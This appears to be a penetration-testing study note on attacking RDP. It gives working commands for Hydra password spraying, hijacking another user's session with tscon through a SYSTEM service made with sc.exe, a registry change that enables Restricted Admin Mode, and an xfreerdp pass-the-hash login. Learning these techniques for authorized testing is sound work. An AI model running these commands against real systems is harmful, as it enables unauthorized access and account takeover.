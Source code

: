 # RDP Attack

* a user account will be locked or disabled after a certain number of failed login attempts.
  * In this case, we can perform a specific password guessing technique called \[\[Password Spraying]]
    * Using the Crowbar tool, we can perform a password spraying attack against the RDP service

### Nmap

```bash
nmap -Pn -p3389 192.168.2.143 
```

### Hydra - RDP Password Spraying

```
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

### Crowbar - RDP Password Spraying

* [crowbar.md](crowbar.md "mention")



### RDP Session Hijacking

* if another user is logged in we can hyjack their session
* To successfully impersonate a user without their password, we need to have `SYSTEM` privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary
  * that enables users to connect to another desktop session

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* we are logged in as the user `juurena` (UserID = 2) who has `Administrator` privileges.
  * Our goal is to hijack the user `lewen` (User ID = 4), who is also logged in via RDP.

```cmd-session
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

* If we have local administrator privileges, we can use several methods to obtain SYSTEM privileges, such as \[\[PsExec]] or \[\[Mimikatz]]
* A simple trick is to create a Windows service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges
  * We will use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary.
  * First, we specify the service name (`sessionhijack`) and the `binpath`, which is the command we want to execute.
  * Once we run the following command, a service named `sessionhijack` will be created.

```cmd-session
C:\htb> query user
```

```cmd-session
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```cmd-session
C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```

```cmd-session
[SC] CreateService SUCCESS
```

* To run the command, we can start the `sessionhijack` service :

```cmd-session
net start sessionhijack
```

* Once the service is started, a new terminal with the `lewen` user session will appear.
* With this new account, we can attempt to discover what kind of privileges it has on the network
*

    <figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



    * _Note: This method no longer works on Server 2019._

    ### RDP Pass-the-Hash (PtH)

    * If we have plaintext credentials for the target user, it will be no problem to RDP into the system.
      * However, what if we only have the NT hash of the user obtained from a credential dumping attack such as [SAM](https://en.wikipedia.org/wiki/Security\_Account\_Manager) database, and we could not crack the hash to reveal the plaintext password
      * in some instances, we can perform an RDP PtH attack to gain GUI access to the target system using tools like `xfreerdp`.
      * There are a few caveats to this attack
        * `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:
          *

              <figure><img src="../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


          * This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG\_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`.&#x20;
            * It can be done using the following command: - `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
            *

                <figure><img src="../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


            * Once the registry key is added, we can use `xfreerdp` with the option `/pth` to gain RDP access: - `xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9`
          * If it works, we'll now be logged in via RDP as the target user without knowing their cleartext password.&#x20;



